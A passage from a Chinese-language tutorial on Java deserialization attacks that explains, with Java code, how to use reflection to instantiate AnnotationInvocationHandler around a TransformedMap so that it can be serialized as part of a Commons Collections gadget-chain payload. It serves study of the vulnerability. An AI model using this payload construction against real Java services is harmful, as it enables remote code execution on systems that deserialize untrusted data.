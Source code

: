     ![image-20230408102200566](Serialization-Java/image-20230408102200566.png)

4. 分析一下，这个类的 `memberValue` 是可传入的而且是 `Map` 中的 `Map.Entry`，因此方向就是实例化这个类然后传入构造好的 `transformedMap`。

5. 由于这个类它没有被 `public` 关键字修饰，因此它不可以直接通过 `new` 实例化，因此要采用**反射机制**去创建它。

6. 创建过程大概如下：

    ```java
    // 触发转换器链内所有转换器的 transform()
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    // 这里为什么 key 是 "value"，下文有解释
    hashMap.put("value", "随便");
    // transformedMap.entrySet().iterator().next().setValue("123");
    
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    // 通过 class 类对象的构造函数实例化对象
    // 这里第一个参数要注意，使用了 SpringMVC 的注解 GetMapping，下文会讲
    Object newInstance = aIHClassDeclaredConstructor.newInstance(GetMapping.class, transformedMap);
    // 对这个对象进行序列化
    // serialize(newInstance);
    ```
